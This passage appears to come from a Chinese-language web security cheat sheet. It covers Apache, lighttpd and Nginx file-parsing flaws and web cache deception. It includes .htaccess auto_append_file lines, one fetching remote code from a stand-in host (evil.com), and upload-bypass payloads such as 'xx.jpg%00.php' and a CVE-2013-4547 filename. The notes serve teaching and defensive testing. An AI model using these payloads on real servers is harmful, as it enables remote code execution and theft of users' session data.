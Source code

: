 ```
#php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
#php_value auto_append_file https://evil.com/evil-code.txt
```

#### 3. 目录遍历
配置 `Options +Indexes` 时Apache存在目录遍历漏洞。

#### 4. CVE-2017-15715
`%0A` 绕过上传黑名单

#### 5. lighttpd
`xx.jpg/xx.php`

### 3. Nginx
#### 1. Fast-CGI 关闭
在Fast-CGI关闭的情况下， Nginx 仍然存在解析漏洞： 在文件路径(xx.jpg)后面加上 `%00.php` ， 即 `xx.jpg%00.php` 会被当做 php 文件来解析

#### 2. Fast-CGI 开启
在Fast-CGI，在文件路径后加上 `/xx.php` ，则 `xx.jpg/xx.php` 会被解析为php文件

#### 3.  CVE-2013-4547
`a.jpg\x20\x00.php`

#### 4. 配置错误
##### 1. 目录穿越
如果配置中存在类似`location /foo { alias /bar/; }` 的配置时, `/foo.../` 会被解析为 `/bar/../` 从而导致目录穿越的发生. 

##### 2. 目录遍历
配置中 `autoindex on` 开启时, Nginx 中存在目录遍历漏洞

## 16. Web Cache 欺骗攻击
### 1. 简介
网站通常都会通过如CDN、负载均衡器、或者反向代理来实现Web缓存功能。通过缓存频繁访问的文件，降低服务器响应延迟。

例如，网站 `htttp://www.example.com` 配置了反向代理。对于那些包含用户个人信息的页面，如 `http://www.example.com/home.php` ，由于每个用户返回的内容有所不同，因此这类页面通常是动态生成，并不会在缓存服务器中进行缓存。通常缓存的主要是可公开访问的静态文件，如css文件、js文件、txt文件、图片等等。此外，很多最佳实践类的文章也建议，对于那些能公开访问的静态文件进行缓存，并且忽略HTTP缓存头。

### 2. 漏洞成因
当代理服务器设置为缓存静态文件并忽略这类文件的caching header时，访问 `http://www.example.com/home.php/no-existent.css `时，会发生什么呢？整个响应流程如下：
1. 浏览器请求 `http://www.example.com/home.php/no-existent.css`
2. 服务器返回 `http://www.example.com/home.php` 的内容(通常来说不会缓存该页面);
3. 响应经过代理服务器
4. 代理识别该文件有css后缀
5. 在缓存目录下, 代理服务器创建目录 `home.php`, 将返回的内容作为 `non-existtent.css` 保存

### 3. 漏洞利用
攻击者欺骗用户访问 `http://www.example.com/home.php/logo.png?www.myhack58.com`,导致含有用户个人信息的页面被缓存，从而能被公开访问到。更严重的情况下，如果返回的内容包含session标识、安全问题的答案，或者csrf token。这样攻击者能接着获得这些信息，因为通常而言大部分网站静态资源都是公开可访问的。
